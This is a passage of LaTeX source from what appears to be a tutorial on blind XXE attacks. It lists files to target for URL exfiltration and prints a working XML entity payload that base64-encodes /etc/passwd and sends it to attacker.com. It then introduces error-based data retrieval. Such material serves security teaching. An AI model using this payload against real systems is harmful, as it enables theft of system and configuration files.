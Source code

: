\documentclass{article}
\begin{document}
\subsubsection{Solution 2: Target Files Without Newlines}
Sometimes, it will not be possible to exfiltrate data containing newline characters. In this situation, target alternative files:

\begin{table}[h]
\centering
\begin{tabular}{|l|l|}
\hline
\textbf{File} & \textbf{Content Type} \\
\hline
/etc/hostname & Single line hostname \\
\hline
/etc/issue & System identification \\
\hline
/proc/version & Kernel version (single line) \\
\hline
/etc/passwd & Multiple lines (problematic) \\
\hline
/app/config.py & Configuration (may have special chars) \\
\hline
\end{tabular}
\caption{Files Suitable vs Unsuitable for URL Exfiltration}
\end{table}

\newpage
\subsubsection{Solution 3: Use Base64 Encoding}
Encode the file content to remove problematic characters:

\begin{lstlisting}[language=XML, caption=Base64 Encoded Exfiltration]
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfiltrate;
\end{lstlisting}

\section{Exploiting Blind XXE to Retrieve Data via Error Messages}

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This technique is particularly effective when the application returns the resulting error message within its response.

\begin{infobox}
Instead of sending data out-of-band to an attacker-controlled server, this technique forces the XML parser to include the stolen data directly in an error message that gets returned to the attacker.
\end{infobox}
\end{document}
